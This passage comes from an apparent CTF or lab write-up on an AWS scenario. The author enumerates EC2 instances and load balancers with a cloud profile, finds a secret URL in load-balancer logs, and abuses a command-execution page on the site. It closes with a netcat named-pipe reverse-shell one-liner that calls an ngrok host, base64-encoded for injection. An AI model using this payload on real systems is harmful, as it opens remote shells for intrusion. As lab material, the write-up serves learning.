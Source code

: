 <img src="https://i.imgur.com/KLf5NPG.png"/>

On accessing that folder, there's a log file which contained some requests

<img src="https://i.imgur.com/69nuRUg.png"/>

<img src="https://i.imgur.com/Cv32NVN.png"/>

Making a request to see these urls are alive but they were down

<img src="https://i.imgur.com/NjO1stY.png"/>

So we know there might be a web app running, we can try listing an ec2 instances through this profile

```bash
aws ec2 describe-instances --profile lara --region us-east-1 
```

<img src="https://i.imgur.com/iZIGQHK.png"/>

We scan this ec2 instance for open ports which shows that there's only ssh open the instance

<img src="https://i.imgur.com/hON1Vjf.png"/>

So there's nothing we can do from the ec2, the log file belongs to a load balancer, so we can try lisiting the load balancers with `elbv2 describe-load-balancers`

```bash
aws elbv2 describe-load-balancers --profile lara --region us-east-1
```

<img src="https://i.imgur.com/oq4bwYV.png"/>

We can visit this url and access the site

<img src="https://i.imgur.com/katXehA.png"/>

This talks about visiting "the secret url" which we can find from the logs

<img src="https://i.imgur.com/t5vBH8F.png"/>

This gives us a functionality to execute commands which we can abuse to get a reverse shell

<img src="https://i.imgur.com/6OW0Nwq.png"/>

For reverse shell, we can use `ngork` which is used for exposing local port over the internet, I was having issues with ngrok not working with kali linux so I swtiched to ubuntu for getting a shell using busybox variant of `netcat`

```bash
echo "rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 11400 >/tmp/f" |base64 -w0
```

<img src="https://i.imgur.com/69eaCZG.png"/>
